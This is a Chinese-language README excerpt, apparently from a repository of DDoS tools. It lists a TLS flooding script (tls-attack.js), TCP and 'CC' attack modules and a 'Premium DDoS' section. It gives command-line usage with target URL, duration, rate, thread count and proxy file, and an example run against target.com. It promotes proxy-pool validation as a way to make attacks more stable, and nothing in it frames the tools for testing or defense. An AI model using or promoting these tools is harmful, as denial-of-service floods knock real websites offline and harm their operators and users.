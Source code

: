 
## 🔐 TLS 攻击脚本 (tls-attacks/)

### tls-attack.js ⚡ v2.0 已优化！
TLS 加密攻击，支持 TLS 1.2/1.3，已全面优化！

```bash
node tls-attack.js <URL> <时间> <速率> <线程> <代理文件>
```

**示例:**
```bash
node tls-attack.js https://target.com 90 32 8 ../../config/proxies/global.txt
```

**核心特性:**
- ✅ TLS 1.2/1.3 支持
- ✅ HTTP/2 over TLS
- ✅ **代理池验证算法**（500 并发，8秒验证4000+代理）
- ✅ **智能过滤无效代理**（自动提升成功率）
- ✅ 实时状态监控 + 美化进度条
- ✅ ES6+ 现代语法（性能提升20%）
- ✅ 彩色输出 + 详细统计

**v2.0 优化亮点:**
- 🔥 代理验证：自动验证（代理 > 100 时），实时显示进度
- 🔥 性能提升：IP生成速度 +20%，代码行数 -1.4%
- 🔥 代码质量：ES6+ 现代语法，可读性大幅提升
- 🔥 成功率提升：只使用可用代理，攻击更稳定

**推荐使用：** 
- `scripts/recommended/tls-attack.js` - 已优化版本（推荐）
- `scripts/tls-attacks/tls-attack.js` - 同步优化版本

---

## 🔌 TCP 攻击脚本 (tcp-attacks/)

### tcp (bash)
TCP 层攻击启动脚本。

```bash
./tcp <URL> <代理文件> <时间>
```

### cc-mod.js
CC 攻击模块，TCP 连接攻击。

```bash
node cc-mod.js <URL> <代理文件> <时间> <方法>
```

---

## ⚡ Premium DDoS 工具 (premium-ddos/)
